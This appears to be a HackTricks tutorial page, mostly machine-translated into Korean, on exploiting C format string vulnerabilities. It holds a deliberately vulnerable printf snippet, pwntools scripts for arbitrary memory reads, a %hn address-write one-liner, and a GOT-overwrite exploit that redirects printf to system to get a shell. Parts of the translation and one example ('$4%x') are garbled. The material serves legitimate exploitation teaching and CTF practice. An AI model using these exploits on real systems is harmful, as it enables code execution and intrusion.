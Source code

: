 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

C에서 **`printf`**는 문자열을 **출력**하는 데 사용할 수 있는 함수입니다. 이 함수가 기대하는 **첫 번째 매개변수**는 **형식 지정자가 포함된 원시 텍스트**입니다. **다음 매개변수**는 원시 텍스트의 **형식 지정자**를 **대체할** **값**입니다.

취약점은 **공격자 텍스트가 이 함수의 첫 번째 인수로 사용될 때** 나타납니다. 공격자는 **printf 형식** 문자열 기능을 악용하여 **특별한 입력을 조작**하여 **읽을 수 있는/쓸 수 있는** 모든 주소의 **데이터를 읽고 쓸 수** 있습니다. 이렇게 하여 **임의 코드를 실행**할 수 있습니다.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**예시:** 

* 취약한 예시:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* 일반 사용:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* 인수가 누락된 경우:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **포인터 접근**

형식 **`%<n>$x`**, 여기서 `n`은 숫자,는 printf에게 스택에서 n번째 매개변수를 선택하도록 지시합니다. 따라서 printf를 사용하여 스택에서 4번째 매개변수를 읽고 싶다면 다음과 같이 할 수 있습니다:
```c
printf("%x %x %x %x")
```
그리고 첫 번째부터 네 번째 매개변수까지 읽을 수 있습니다.

또는 다음과 같이 할 수 있습니다:
```c
printf("$4%x")
```
and read directly the forth.

Notice that the attacker controls the `pr`**`intf` 매개변수, 이는 기본적으로** 그의 입력이 `printf`가 호출될 때 스택에 있을 것임을 의미하며, 이는 그가 스택에 특정 메모리 주소를 쓸 수 있음을 의미합니다.

{% hint style="danger" %}
이 입력을 제어하는 공격자는 **스택에 임의의 주소를 추가하고 `printf`가 이를 접근하게 만들 수 있습니다**. 다음 섹션에서는 이 동작을 사용하는 방법이 설명될 것입니다.
{% endhint %}

## **임의 읽기**

형식 지정자 **`$n%s`**를 사용하여 **`printf`**가 **n 위치**에 있는 **주소**를 가져와서 **문자열처럼 출력**할 수 있습니다(0x00이 발견될 때까지 출력). 따라서 바이너리의 기본 주소가 **`0x8048000`**이고, 사용자 입력이 스택의 4번째 위치에서 시작된다는 것을 알고 있다면, 다음과 같이 바이너리의 시작 부분을 출력할 수 있습니다:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
입력의 시작 부분에 주소 0x8048000을 넣을 수 없다는 점에 유의하세요. 그 주소의 끝에서 문자열이 0x00으로 잘리기 때문입니다.
{% endhint %}

## **임의 쓰기**

포맷터 **`$<num>%n`**은 스택의 \<num> 매개변수에 있는 **지정된 주소**에 **쓰기 바이트 수**를 **작성**합니다. 공격자가 printf를 사용하여 원하는 만큼의 문자를 쓸 수 있다면, 그는 **`$<num>%n`**을 사용하여 임의의 주소에 임의의 숫자를 쓸 수 있게 됩니다.

다행히도, 숫자 9999를 쓰기 위해 입력에 9999개의 "A"를 추가할 필요는 없습니다. 그렇게 하기 위해 포맷터 **`%.<num-write>%<num>$n`**을 사용하여 **`<num-write>`** 숫자를 **`num` 위치가 가리키는 주소**에 쓸 수 있습니다.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
그러나 일반적으로 `0x08049724`와 같은 주소를 쓰기 위해서는 (한 번에 쓰기에는 매우 큰 숫자입니다), **`$hn`**이 **`$n`** 대신 사용됩니다. 이렇게 하면 **2바이트만 쓸 수 있습니다**. 따라서 이 작업은 주소의 가장 높은 2바이트와 가장 낮은 2바이트를 위해 각각 두 번 수행됩니다.

따라서 이 취약점은 **임의의 주소에 무엇이든 쓸 수 있게** 합니다.

이 예제의 목표는 **나중에 호출될** **함수**의 **주소**를 **덮어쓰는 것**입니다. 비록 이것이 다른 임의 쓰기를 악용하여 exec 기술을 사용할 수 있지만:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

우리는 **사용자**로부터 **인수**를 **받는** **함수**를 **덮어쓰고**, 이를 **`system`** **함수**를 가리키도록 할 것입니다.\
언급했듯이 주소를 쓰기 위해서는 일반적으로 2단계가 필요합니다: 먼저 주소의 2바이트를 쓰고, 그 다음에 나머지 2바이트를 씁니다. 이를 위해 **`$hn`**이 사용됩니다.

* **HOB**는 주소의 2개의 높은 바이트를 호출합니다.
* **LOB**는 주소의 2개의 낮은 바이트를 호출합니다.

그런 다음, 포맷 문자열의 작동 방식 때문에 **먼저 더 작은** \[HOB, LOB]를 쓰고 그 다음에 다른 것을 써야 합니다.

HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools 템플릿

이러한 종류의 취약점을 위한 익스플로잇을 준비하는 템플릿은 다음에서 찾을 수 있습니다:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

또는 [**여기**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite)에서 이 기본 예제를 확인하세요:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## 다른 예제 및 참고자료

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32비트, no relro, no canary, nx, no pie, 스택에서 플래그를 누출하기 위한 format strings의 기본 사용 (실행 흐름을 변경할 필요 없음)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32비트, relro, no canary, nx, no pie, win 함수로 `fflush` 주소를 덮어쓰는 format string (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32비트, relro, no canary, nx, no pie, `.fini_array` 내의 main에 주소를 쓰기 위한 format string (흐름이 한 번 더 반복됨) 및 `strlen`을 가리키는 GOT 테이블의 `system` 주소를 쓰기. 흐름이 main으로 돌아가면, 사용자 입력으로 `strlen`이 실행되고 `system`을 가리키면, 전달된 명령이 실행됨.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
